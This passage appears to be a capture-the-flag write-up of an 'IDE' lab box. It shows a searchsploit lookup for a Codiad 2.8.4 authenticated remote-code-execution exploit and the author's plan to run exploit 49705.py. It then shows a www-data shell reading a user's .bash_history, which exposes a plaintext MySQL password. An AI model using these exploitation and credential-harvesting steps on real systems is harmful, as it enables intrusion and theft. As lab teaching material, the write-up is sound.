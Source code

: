 ```bash
Codiad 2.8.4 - Remote Code Execution (Authenticated) (4)                                                                   | multiple/webapps/50474.txt
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
:~/IDE# 
```



<p>Since we have credentials, I will try <code>49705.py</code>.</p>


![image](https://github.com/user-attachments/assets/3bc86b0a-f706-4424-8699-87869fde9f1e)

<br>

![image](https://github.com/user-attachments/assets/907ddaba-b211-4705-a549-accf3dfb96d4)

<br>

![image](https://github.com/user-attachments/assets/341aa18d-a3d4-4382-ac39-b72023ccbb6f)

<br>

![image](https://github.com/user-attachments/assets/9ab47120-0e77-4ea6-847a-6759ebd0827b)


<br>

```bash
www-data@ide:/home/drac$ cat .bash_history
cat .bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'
www-data@ide:/home/drac$ cat 
```

<br>

```bash
www-data@ide:/home/drac$ cat .profile
cat .profile
# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
	. "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
```